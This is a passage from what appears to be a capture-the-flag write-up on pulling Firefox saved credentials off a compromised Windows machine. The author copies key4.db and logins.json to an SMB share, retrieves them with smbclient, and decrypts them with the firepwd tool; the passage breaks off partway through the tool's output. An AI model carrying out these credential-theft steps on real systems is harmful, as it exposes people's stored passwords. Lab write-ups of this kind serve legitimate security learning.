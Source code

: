 ```
04/21/2020  05:02 PM            98,304 webappsstore.sqlite
05/14/2020  10:45 PM               140 xulstore.json
```

As seen, we got a `key4.db` and `logins.json` file, investigating through internet, we find a python script that let us retrieve the passwords hidden on those files, it is called `firepwd`, let's get it:

```
git clone https://github.com/lclevy/firepwd.git
```


We need a way to get those files, we can either download `netcat` into the windows machine which is the slowest path, or copy the two files into `C:\Users\Share` and use smbclient to get them:

```
copy key4.db C:\Users\Share\key4.db
copy logins.json C:\Users\Share\logins.json
```

Now, we can get them in `smbclient`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250530174002.png)

```
get key4.db
get logins.json
```

Now, we can use our script:

```python
pip install -r requirements.txt
pyhton3 firepwd.py
```

We will get this output:

```python
python3 firepwd.py
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'9e0554a19d22a773d0c5497efe7a80641fa25e2e73b2ddf3fbbca61d801c116d'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'b0da1db2992a21a74e7946f23021'
       }
     }
   }
   OCTETSTRING b'a713739460522b20433f7d0b49bfabdb'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
```